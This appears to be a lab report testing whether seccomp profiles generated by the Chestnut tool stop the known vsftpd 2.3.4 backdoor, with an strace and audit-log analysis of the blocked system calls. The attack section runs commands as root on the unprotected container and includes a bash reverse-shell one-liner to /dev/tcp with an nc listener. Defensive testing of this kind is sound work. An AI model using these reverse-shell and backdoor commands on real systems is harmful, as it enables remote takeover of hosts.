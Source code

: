 ## vsftpd – chestnut

### Preparation

_For the container with seccomp, we execute the file `/tmp/script.sh` which is extracting the system calls from the binary `vsftpd`, creating a seccomp-profile based on these detected system calls and subsequently applying the profile on the binary. Afterwards, the binary is automatically run._

`docker exec -it vsftpd-chestnut-seccomp-container bash -c "source /Chestnut/Binalyzer/venv/bin/activate && /tmp/script.sh"  `

_For the container without seccomp, we just have to start it with following command:_

`docker exec -it vsftpd-chestnut-normal-container /app/vsftpd-2.3.4-infected/vsftpd /app/vsftpd-2.3.4-infected/vsftpd.conf`

### Conduct the exploits

First, we verify the IP addresses of the container, to ensure we target the right containers:

```
❯ docker ps
CONTAINER ID IMAGE COMMAND CREATED STATUS PORTS NAMES
4f16987c58e0 vsftpd-chestnut-seccomp "/bin/bash" 10 minutes ago Up 10 minutes 0.0.0.0:2104->21/tcp, [::]:2104->21/tcp, 0.0.0.0:6204->6200/tcp, [::]:6204->6200/tcp vsftpd-chestnut-seccomp-container
66fa1ece7f08 vsftpd-chestnut-normal "/bin/bash" 10 minutes ago Up 10 minutes 0.0.0.0:2103->21/tcp, [::]:2103->21/tcp, 0.0.0.0:6203->6200/tcp, [::]:6203->6200/tcp vsftpd-chestnut-normal-container

❯ docker inspect vsftpd-chestnut-seccomp-container | grep '"IPAddress":'
"IPAddress": "192.168.224.2",
❯ docker inspect vsftpd-chestnut-normal-container | grep '"IPAddress":'
"IPAddress": "192.168.224.3",

```

_Seccomp_:
The attack on the container with the applied seccomp profile on the binary fails:

```
❯ ./attackSubject.sh 192.168.224.2 whoami
read(net): Connection reset by peer
[-] no response!
❯ ./attackSubject.sh 192.168.224.2 id
read(net): Connection reset by peer
[-] no response!
❯ ./attackSubject.sh 192.168.224.2 ls
read(net): Connection reset by peer
[-] no response!
❯ ./attackSubject.sh 192.168.224.2 pwd
read(net): Connection reset by peer
[-] no response!
```

_Normal_
The attack on the container without the seccomp profile succeeds. We are able to run arbitrary commands:

```
❯ ./attackSubject.sh 192.168.224.3 "id"
[+] worked: uid=0(root) gid=0(root) groups=0(root)
❯ ./attackSubject.sh 192.168.224.3 "pwd"
[+] worked: /app/vsftpd-2.3.4-infected
❯ ./attackSubject.sh 192.168.224.3 "ls"
[+] worked: AUDIT
BENCHMARKS
❯ ./attackSubject.sh 192.168.224.3 "whoami"
[+] worked: root
❯ ./attackSubject.sh 192.168.224.3 "bash -c 'bash -i >& /dev/tcp/192.168.224.1/4444 0>&1'"
[-] no response!

❯ nc -lvnp 4444 # note, this is on another terminal
Connection from 192.168.224.3:37400
bash: cannot set terminal process group (33): Inappropriate ioctl for device
bash: no job control in this shell
root@66fa1ece7f08:/app/vsftpd-2.3.4-infected# id
id
uid=0(root) gid=0(root) groups=0(root)

```

### Analysis

As the exploit worked on the container without the seccomp profile, only the one with the enforced profile will be analysed.

_strace output:_
When starting the container with the command `strace -f /tool/Chestnut/ChestnutPatcher/rewrite.sh /app/vsftpd-2.3.4-infected/vsftpd /app/vsftpd-2.3.4-infected/vsftpd.conf` we are able to see that just before the process with the pid `88` was killed with the signal `SIGSYS`, the system call `wait4` was executed.
In addition, pid `89` executed `getgid` and was also with `SIGSYS`.

```
[pid    88] alarm(0 <unfinished ...>
[pid    88] <... alarm resumed> )       = 1
[pid    88] wait4(-1,  <unfinished ...>
[pid    88] <... wait4 resumed> NULL, WNOHANG, NULL) = 61
[pid    88] +++ killed by SIGSYS +++
...
[pid    89] mprotect(0x5b5ee881b000, 8192, PROT_READ) = 0
[pid    89] mprotect(0x7d22d1047000, 4096, PROT_READ) = 0
[pid    89] munmap(0x7d22d103c000, 17328) = 0
[pid    89] getuid()                    = 0
[pid    89] getgid()                    = 104
[pid    89] +++ killed by SIGSYS (core dumped) +++
```

Further analysis on the host machine with the tool `ausearch` delievers us more insights.
As we can see, the syscalls with the number `104` and `61` were the reason for the `SIGSYS` signal.

```
----
# whoami command
time->Thu May  1 09:04:26 2025
type=SECCOMP msg=audit(1746083066.494:1450): auid=4294967295 uid=0 gid=0 ses=4294967295 pid=22798 comm="sh" exe="/bin/dash" sig=31 arch=c000003e syscall=104 compat=0 ip=0x7d22d0b12857 code=0x0
----
time->Thu May  1 09:04:26 2025
type=SECCOMP msg=audit(1746083066.590:1456): auid=4294967295 uid=0 gid=0 ses=4294967295 pid=22711 comm="vsftpd_patched" exe="/app/vsftpd-2.3.4-infected/vsftpd_patched" sig=31 arch=c000003e syscall=61 compat=0 ip=0x7acc6eeb6337 code=0x0
```

We verify that the system call numbers `104` and `61` map to `getgid` and `wait4` with the `ausyscall` tool:

```
❯ ausyscall --dump | grep 104
104	getgid

❯ ausyscall --dump | grep 61
61	wait4
```

The last thing we check is, if the system call numbers `104` and `61` was in the applied seccomp profile. The file `policy__app_vsftpd-2.3.4-infected_vsftpd.json` shows no presence:

```json
{
  "version": 1,
  "syscalls": [
    0, 1, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 19, 20, 21, 23, 28,
    33, 37, 38, 39, 41, 42, 43, 45, 46, 47, 48, 49, 50, 51, 52, 53, 54, 55, 56,
    59, 60, 62, 63, 72, 77, 78, 79, 80, 82, 83, 84, 87, 89, 90, 91, 93, 95, 96,
    102, 105, 106, 107, 108, 111, 112, 113, 114, 116, 132, 157, 158, 161, 164,
    186, 201, 202, 229, 231, 234, 257, 262, 302
  ]
}
```

## Appendix

### Extraction time

The following shows the time needed to extract the system calls from 3 runs:

```
docker exec -it vsftpd-chestnut-seccomp-container bash -c "rm /Chestnut/Binalyzer/cached_results/*; source /Chestnut/Binalyzer/venv/bin/activate && cd /Chestnut/Binalyzer && time python3 /Chestnut/Binalyzer/filter.py /app/vsftpd-2.3.4-infected/vsftpd"
...
real	0m26.930s
user	0m25.725s
sys	0m1.084s

docker exec -it vsftpd-chestnut-seccomp-container bash -c "rm /Chestnut/Binalyzer/cached_results/*; source /Chestnut/Binalyzer/venv/bin/activate && cd /Chestnut/Binalyzer && time python3 /Chestnut/Binalyzer/filter.py /app/vsftpd-2.3.4-infected/vsftpd"
...
real	0m28.045s
user	0m26.789s
sys	0m1.109s

docker exec -it vsftpd-chestnut-seccomp-container bash -c "rm /Chestnut/Binalyzer/cached_results/*; source /Chestnut/Binalyzer/venv/bin/activate && cd /Chestnut/Binalyzer && time python3 /Chestnut/Binalyzer/filter.py /app/vsftpd-2.3.4-infected/vsftpd"
...
real	0m27.484s
user	0m26.194s
sys	0m1.140s
```

`(26,930+28,045+27,484)/3=27.486`

### Number of syscalls

```
jq -r '.syscalls | length'
83
```
